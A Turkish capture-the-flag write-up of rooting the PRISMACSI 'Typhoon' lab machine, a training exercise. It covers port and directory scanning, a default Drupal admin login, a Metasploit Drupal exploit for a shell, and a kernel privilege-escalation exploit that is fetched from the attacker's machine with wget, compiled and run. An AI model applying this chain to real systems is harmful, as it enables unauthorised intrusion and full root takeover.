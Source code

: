# PRİSMACSİ(DRUPAL) WRİTEUP
---------------------------------------------
PRISMACSI firmasının yayınladığı typhoon makinesindeki drupal ve linux kernel versiyonundan kaynaklanan zaafiyetlerden
yararlanarak ele geçirmemi anlatacağım.


## 1)İlk olaran nmap taraması yaparak açık olan portları ve üzerinde çalışan servisler hakkında bilgi topladım.

![image](/drupal/1.png)

## 2)Birçok port ve servisin çalıştığını öğrendikten sonra http üzerinden araştırmalarıma devam ettim.Hangi dizinlerin bulunduğunu bulmak için dirbuster taraması yaptım.

![image](/drupal/2.png)

## 3)Ve drupal burda gözüme çarpan ilk şey oldu.Direk bu adrese gittim.Admin girişi yapmak için şansımı denedim ve ilk denememde başarılı şekilde login oldum.(Username:Admin - Password:typhoon)

![image](/drupal/3.png)
<br/>
![image](/drupal/4.png)

## 4)Daha drupal versiyonunu merak ettim ve wappalyzer eklentisiyle hangi teknolojilerinin kullanıldığının bilgilerini öğreniyorum.

![image](/drupal/5.png)

## 5)Burada drupal versiyonunu araştırmaya devam ediyorum.İlk olarak searchsploit üzerinden bulunan exploitleri listeliyorum.İşaretlemiş olduğum exploiti seçerek cve numarasını öğrenmek için exploit-db sayfasını ziyaret ettim.

![image](/drupal/6.png)
<br>
![image](/drupal/7.png)

## 6)Numarasını öğrendiğim exploiti metasploit üzerinden bulduktan sonra set ediyorum.

![image](/drupal/8.png)

## 7)Exploit için gerekli olan bilgileri girdikten sonra exploit işlemine başlıorum .Meterpreter oturumu kurulduktan shell açıyorum.

![image](/drupal/9.png)

## 8)Sisteme giriş yaptıktan sonra bilgi toplamaya başladım.Burada linux kernel versiyonunu merak ediyorum.

![image](/drupal/10.png)

## 9)Bu versiyonu araştırmaya başlıyorum ve ilk olarak yine searchsploit üzerinden aramamı yapıyorum.Bulunan exploitler içinden uygun olanı seçiyorum.

![image](/drupal/11.png)
<br/>
![image](/drupal/12.png)

## 10)İl olarak bulduğum exploiti kendi makineme indiriyorum.Daha sonra kendi makinemden zafiyetli makineye wget(wget http://anamakinem:8081/37292.c) aracılığla indiriyorum.İndirmiş olduğum exploiti gcc(gcc 37292.c -o exp) ile derledim sonra exploite execute(chmod + exp) yetkisi vererek çalıştırdım.Anında root olarak root dizinine gidiyorum ve root için bırakılmış flağı okuyorum.

![image](/drupal/13.png)
<br/>
![image](/drupal/14.png)


